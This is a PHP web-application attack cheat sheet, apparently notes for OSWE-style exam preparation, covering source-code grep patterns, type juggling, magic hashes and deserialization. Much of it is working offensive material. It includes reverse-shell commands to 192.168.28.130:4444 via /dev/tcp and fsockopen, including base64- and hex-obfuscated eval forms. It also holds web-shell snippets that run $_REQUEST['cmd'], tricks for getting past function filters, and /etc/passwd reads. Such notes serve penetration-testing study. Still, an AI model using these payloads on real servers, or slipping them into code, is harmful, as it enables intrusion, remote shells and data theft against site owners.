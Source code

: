     *Enable verbose mode:   /etc/php5/apache2/php.ini ; add: display_errors = On ; sudo systemctl restart apache2
    **Check Version:
        php -v
        Or:  echo "<?php echo phpversion(); ?>" > /var/www/html/ver.php ; curl http://localhost/ver.php
    Check enabled wrappers:  var_dump(stream_get_wrappers());
    Dangerous Functions:  
        https://z-r0crypt.github.io/blog/2021/01/25/dangerous-php-functions/
        https://github.com/rinku191/OSWE-prepration/wiki/PHP-Dangerous-function
    Try to trigger an error that reveals the web root (w/ display_errors enabled):  GET /ATutor/browse.php?access=&search[]=test&include=all&filter=Filter  
    User-Supplied Data:  $_GET, $_POST, $_REQUEST arrays for parameters; $_SERVER array for headers; $_COOKIE array; $_SESSION array
        ex. cat /var/www/html/ATutor/mods/_standard/social/index_public.php | grep '$_GET' --color
        egrep -R '$_GET|$_POST|$_REQUEST' . --color
        Look for 'include' or 'require' with a parameter you control
    File Interaction:  
        Read/Write:  egrep -R 'fopen|readfile|file\(|fpassthru|gzopen|gzfile|gzpassthru|readgzfile|copy|rename|rmdir|mkdir|unlink|file_get_contents|file_put_contents|parse_ini_file' .
        Include/Evaluate PHP:  egrep -R 'include|include_once|require|require_once|virtual' .
    SQLI Vulnerable Functions:  egrep -iR 'mysql_query|mssql_query|pg_query|execute\(\)' .
        Stacking: mysql_* and mysqli_* libraries typically don't support, but PDO connector might
    *Dynamic Code Execution:  egrep -R 'eval\(|call_user_func\(|call_user_method\(|create_function\(|assert|preg_replace\(|Function\(' .
        ex. eval('document.' + potato + '.style.color = "red"');
        Try injecting a sub-eval!
    *OS Commands:  egrep -iR 'exec|passthru|popen|proc_open|pcntl_exec|shell_exec|system(|`.*`' .
        #system() => Execute an external program and displays the output.
        #passthru() => Same than system, but casts the output in binary "as is" from the shell to the PHP output (typically the HTTP response).
        #exec() => Captures the output and only the last line of the output into a string.
        #shell_exec() => Same than exec, but capturing full output, not only the last line.
        Both:  
            eval("system('whoami');");  \\  eval("echo exec('whoami');");  \\  eval("echo `whoami`;");  \\  eval("echo shell_exec('whoami');");  \\  eval("echo passthru('whoami');");
            exec('bash -c "bash -i >& /dev/tcp/192.168.28.130/4444 0>&1"');
            eval("exec('bash -c \"bash -i >& /dev/tcp/192.168.28.130/4444 0>&1\"');");
    LFI/RFI:  egrep -R 'include\(|include_once\(|require\(|require_once\(' .
    Injection Test:  <?php echo "HACKED"; ?>
        <?php echo 'system: '; system('whoami'); system($_REQUEST['cmd']); ?><br/>
        <?php echo 'exec: '; echo exec('whoami'); echo exec($_REQUEST['cmd']); ?><br/>
        <?php echo 'shell_exec: '; shell_exec("whoami"); shell_exec($_REQUEST['cmd']); ?><br/>
        <?php echo 'passthru: '; passthru("whoami"); passthru($_REQUEST['cmd']);?>
    Troubleshooting:
        Interactive:  php -a
        Check Settings/Variable:
            nano /var/www/magic.php ; <?php var_dump(get_magic_quotes_gpc()); ?> ; curl http://localhost/magic.php
        Encoding/Filter Bypass:
            Base64:
                eval(base64_decode('JHNvY2s9ZnNvY2tvcGVuKCIxOTIuMTY4LjI4LjEzMCIsNDQ0NCk7ZXhlYygiL2Jpbi9zaCAtaSA8JjMgPiYzIDI+JjMiKTs='));
                    Better: eval("eval(base64_decode('JHNvY2s9ZnNvY2tvcGVuKCIxOTIuMTY4LjI4LjEzMCIsNDQ0NCk7ZXhlYygiL2Jpbi9zaCAtaSA8JjMgPiYzIDI+JjMiKTs='));");
            Base64 within Hex:
                eval("\x65\x76\x61\x6C\x28\x67\x7A\x69\x6E\x66\x6C\x61\x74\x65\x28\x62\x61\x73\x65\x36\x34\x5F\x64\x65\x63\x6F\x64\x65\x28'JHNvY2s9ZnNvY2tvcGVuKCIxOTIuMTY4LjI4LjEzMCIsNDQ0NCk7ZXhlYygiL2Jpbi9zaCAtaSA8JjMgPiYzIDI+JjMiKTs='\x29\x29\x29\x3B");
            Hex and Undefined Variable:
                system("cat /etc/passwd");  ->  "\x73\x79\x73\x74\x65\x6d"("cat /etc$upasswd");
            Comments:
                (system)/*comment here...*/(ls)/* and here. */;
            String concatenation:
                ex. Without quotes:   ...?code=(sy.(st).em)(whoami);
                    ex. Added variables:  ...?a=system&b=cat+/etc&c=/passwd&code=$_GET[a]($_GET[b].$_GET[c]);
                ex.  $a="system('";$b="whoami');";eval("$a$b");
                ex.  eval("\$a=\"system('\";\$b=\"whoami');\";eval(\"$a$b\");");
                ex.  eval("\$a=\"system('\";\$b=\"whoami');\";$a$b;");
                ex.  <?php echo system("uname -a");?>  ->  <?php $a="sy";$b="stem";$c=$a.$b; $c("uname -a");?>
            Calling function by Index:
                Get index of 'system':  print_r(get_defined_functions()[internal]);
                Call:  get_defined_functions()[internal][381](whoami);
            Character Arrays:
                ex. system("ls /tmp");  ->  $a="elmsty/ ";($a[3].$a[5].$a[3].$a[4].$a[0].$a[2])($a[1].$a[3].$a[-1].$a[-2].tmp);
                Using file name: (__FILE__)[18].(__FILE__)[2]. ...etc
    Important File:  php.ini - Notable & Potentially Dangerous Settings:
        `register_globals`: PHP creates global variables automatically for all request parameters
        If `allow_url_fopen` and `allow_url_include` are on: RFI possible
            If only allow_url_fopen: possible LFI (but only for include_path)
            Even if off: possible through SMB in some PHP versions!
        `file_uploads` & `upload_tmp_dir`
        `magic_quotes_gpc` (' -> \') or `magic_quotes_sybase` (' -> '') - be aware if trying SQLI
        disable_functions -> May affect payloads!
    Look for Logic Errors! (ex. missing `exit;`)
        ex. Proper Usage:
            if ($current > $expiry_date) {
                $msg->addError('INVALID_LINK'); 
                $savant->display('password_reminder_feedback.tmpl.php'); 
                exit;
    Type Juggling:
        https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md
        Most Cases: only <= PHP 5
        Some Cases (0eXX...) work for PHP 7
        *Try both 0 and [] and a magic hash!
        Is loose comparison being used, or can you control a variable being compared?
            Look for... Loose comparisons using values/variables that you control!... any admin functions/input submit... email change, etc.
            *Indicators:  using == or != instead of === or !==, not using "strict" comparison options, not typecasting  
        *PHP attempts to perform an implicit **string-to-integer** conversion when using loose comparison operators.
            *See Loose PHP Comparisons Chart -> Test every possibility!
        egrep -R '\=\=|\!\=|\(int\)|\(str\)' . | egrep -v '\=\=\=|\!\=\='
        egrep -iR 'if.*\=\=' .
        Examples:
            var_dump('0xAAAA' == '43690'); var_dump('0xAAAA' == 43690); ("7 puppies" == 7) -> True; ("Puppies" == 0) -> True (because string doesn't contain an integer); var_dump(111a < "30"); -> True
            If: string that starts with digits, followed by "e", followed by only digits, and this string is used in a numeric context (such as comparison to another number), it will be evaluated as a number
                Also true for PHP 7
                var_dump('0e1111' == '0'); var_dump('0e9999' == 0); -> True
            Applications:
                if ($_POST["password"] == "Admin_Password") {login_as_admin();}  ->  (0 == "Admin_Password") -> True
                Another Vulnerable Auth Function:
                    if (strcmp($_POST['password'], 'thePassword') == 0) 
                    Instead of password=... submit an array: password[]=
                    strcmp(array(), "thePassword") -> NULL ; NULL==0
            Magic Hashes:
                echo md5('240610708');  ->  var_dump('0e462097431906509019562988736854' == '0');  -> True
                https://github.com/spaze/hashes
                Easier to abuse if only a substring of the hash is used for comparison
            Patched Example:  (int)"0e23812" === (int)"0e48394832"
        ***Vulnerable if user can specify the input type directly (OR through json_decode() or unserialize()):
            {"password": "0"} vs. {"password": 0} in the request
            (Submit HTTP Parameter as Integer using JSON)
            *OR if deserialization preserves the data type!       
    Deserialization:
        Vulnerable:  unserialize()
            egrep -iR 'unserialize|serial' .
        Magic Methods:  egrep -iR '__sleep|__wakeup|__destruct|__toString|__construct' .
            Manual exploitation is likely necessary
        Known Framework/Gadgets:  https://github.com/ambionics/phpggc
            Example:  https://www.youtube.com/watch?v=HaW15aMzBUM 15:00, 29:10
            ex. phpggc Guzzle/RCE1 "shell_exec" "cmd /c calc" -p phar -pf desert -o desert.phar
        Manual POP Chain Exploitation:  https://vickieli.dev/insecure%20deserialization/pop-chains/
        If you have LFI but no PHP execution: try phar:// deserialization - OR PHP Filter RCE
            phar:// method: if you can upload a file -> If unserialize() isn't an option -> file operations with phar:// will trigger unserialize()
            Try if... file upload and lfi available OR try editing php session file through your username, etc.
        Payloads:
            O:len(class_name):"class_name":len(properties_to_edit):{s:len(variable_name):"variable_name";s:len(variable_value):"variable_value";}
            Creation - mimic the vulnerable class, and use 'echo serialize($vulnclass);'  -  https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
                Or:  print urlencode(serialize(new vulnClass));
        *Can lead to Type Juggling, SQLI, etc. - check where the deserialized results are used!